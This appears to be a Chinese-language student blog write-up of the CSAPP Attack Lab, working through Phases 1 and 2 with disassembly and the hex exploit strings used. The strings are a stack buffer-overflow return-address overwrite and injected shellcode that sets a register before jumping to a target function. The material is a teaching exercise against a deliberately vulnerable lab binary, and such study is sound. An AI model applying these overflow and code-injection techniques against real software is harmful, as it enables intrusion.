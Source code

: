 ```yaml
---
title: Attack Lab 记录
top_img: false
cover: /img/CSAPP.jpeg
date: 2020-12-16 17:14:09
tags:
- CSAPP
---
```


## Phase 1

先反汇编得到`getbuf`的代码

```assembly
00000000004017d3 <getbuf>:
  4017d3:	48 83 ec 38          	sub    $0x38,%rsp
  4017d7:	48 89 e7             	mov    %rsp,%rdi
  4017da:	e8 44 02 00 00       	callq  401a23 <Gets>
  4017df:	b8 01 00 00 00       	mov    $0x1,%eax
  4017e4:	48 83 c4 38          	add    $0x38,%rsp
  4017e8:	c3                   	retq   
```

第2行中，申请了0x38字节的空间，然后将栈顶的地址作为参数调用`Gets`。所以`BUFFER_SIZE`是0x38。

这里的逻辑是：`test`函数调用`getbuf`函数，`getbuf`函数再调用`Gets`，而写入字符串的动作在`Gets`函数里。在`test`中`call getbuf`时，将`test`函数（里一条指令）的地址压入了栈，然后在`getbuf`中`call Gets`时，再将`getbuf`的一条指令地址压入栈（这里其实是代码里第五条指令）。也就是说，能更改的只能是第一次压入栈的地址，因为它处于为字符串分配的空间的高地址处。因此需要改变的行为是：让`getbuf`返回时，让它不回到`test`而前往`touch1`。

找到`touch1`的汇编

```assembly
00000000004017e9 <touch1>:
  4017e9:	48 83 ec 08          	sub    $0x8,%rsp
  4017ed:	c7 05 05 2d 20 00 01 	movl   $0x1,0x202d05(%rip)        # 6044fc <vlevel>
  4017f4:	00 00 00 
  4017f7:	48 8d 3d bd 17 00 00 	lea    0x17bd(%rip),%rdi        # 402fbb <_IO_stdin_used+0x2cb>
  4017fe:	e8 2d f4 ff ff       	callq  400c30 <puts@plt>
  401803:	bf 01 00 00 00       	mov    $0x1,%edi
  401808:	e8 2d 04 00 00       	callq  401c3a <validate>
  40180d:	bf 00 00 00 00       	mov    $0x0,%edi
  401812:	e8 99 f5 ff ff       	callq  400db0 <exit@plt>
```

那就很简单了，只要把前0x38个字符先随便填，然后把`touch1`的地址写入就好了。（小端）

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e9 17 40 00 00 00 00 00
```

## Phase 2

Phase 2 有个额外的要求就是把Cookie当作参数传入，我的Cookie是`0x615ab299`。那单单修改返回地址就不够了，因为程序正常执行时，并不会把Cookie传入`%rdi`，那只要把指令写到栈中，让它`ret`到我的指令上就可以了。那该如何再回到`touch2`呢？我的做法是将Cookie传入`%rdi`后，再往栈中压入`touch2`的地址，再`ret`。

touch2的地址：0x401817

我需要插入三条指令，让`getbuf`遇到`ret`后先来到我的指令，然后再前往`touch2`

```assembly
getbuf:
  sub    $0x38,%rsp
  mov    %rsp,%rdi
  callq  401a23 <Gets>
  mov    $0x1,%eax
  add    $0x38,%rsp
  retq
MyAss:
  movq	 $0x615ab299, %rdi
  push	 $0x401817
  ret
```

最后用gcc和objdump就能得到源码

```assembly
48 c7 c7 99 b2 5a 61 /* movq	 $0x615ab299, %rdi */
68 17 18 40 00 /* push	 $0x401817 */
c3 /* ret */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 ec 66 55 00 00 00 00 /* 0x38个字节的首地址，也就是我的指令的初始地址*/
```

## Phase 3 & 4 & 5

phase 3和4自己做出来了

phase 5自己没琢磨清楚，百度教我做出来了。有空再写一下。